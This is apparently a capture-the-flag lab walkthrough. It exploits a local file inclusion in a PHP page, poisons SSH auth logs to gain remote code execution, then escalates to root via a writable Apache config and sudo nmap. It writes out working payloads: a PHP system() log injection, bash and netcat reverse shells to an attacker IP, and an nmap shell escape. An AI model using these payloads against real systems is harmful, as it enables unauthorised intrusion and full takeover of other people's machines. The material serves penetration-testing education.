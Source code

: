 The `console/` directory has a php file present in it called `file.php`.

## Exploitation

### LFI

Running the `file.php` file does not give any output. As a good practice checking for LFI using `?file=../../../../../etc/passwd` works out and LFI is possible. There is an ssh service on the machine, therefore, checked log files. The auth log file at `/var/log/auth.log` contains the ssh logs.

### Transition LFI to SSH Log Poisoning

Given the presence of SSH logs, poisoning is tested by using payload &rarr; `ssh "<?php system(\$_GET['cmd']);?>"@<192.168.125.80>`. A failed login attempt gets logged and the php code is inserted. LFI can now be used to execute the php in the log file, with the addition of the `cmd` parameter like so &rarr; `..console/file.php?file=/var/log/auth.log&cmd=id`. This returned the id of the `www-data` user in the response i.e., RCE.

### User shell

Using the RCE, a shell can be spawned by using bash payload &rarr; `bash -i >& /dev/tcp/192.168.49.208/3002 0>&1` to get a reverse shell. This can be done via burp to URL encode and send the payload. There was no bash in the system, therefore reverting to nc and /bin/sh combo &rarr; `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.208 3002 >/tmp/f`.

This gives a `www-data` user shell via netcat.

## Privilege Escalation

### Escalated User

With the `www-data` shell, the linenum script can be run (example &rarr; [linenum script](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)). This gives the files which are writable by the current user. One such file is the `apache2.conf` file which can be modified to ensure execution of the web server as a privileged user by editing the User and Group to be `mahakal`, a user detected by looking at the `/etc/passwd` file.

Next, a pentest monkey php reverse shell is plugged into the serving directory for navigation to it. This can be named `exploit.php`. The server needs to be restarted for the new settings to be applied. Therefore, as revealed using `sudo -l`, the server can be restarted as super user without the need of a password using the systemctl command as the `www-data` user.

After it is restarted, a listener can be used to receive shell as the user `mahakal`.

### Root

As the user `mahakal`, the binary that can be run as as a super user without a password as revealed by `sudo -l` is actually `nmap`.

Nmap can be used to launch an interactive interpreter using &rarr;

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```
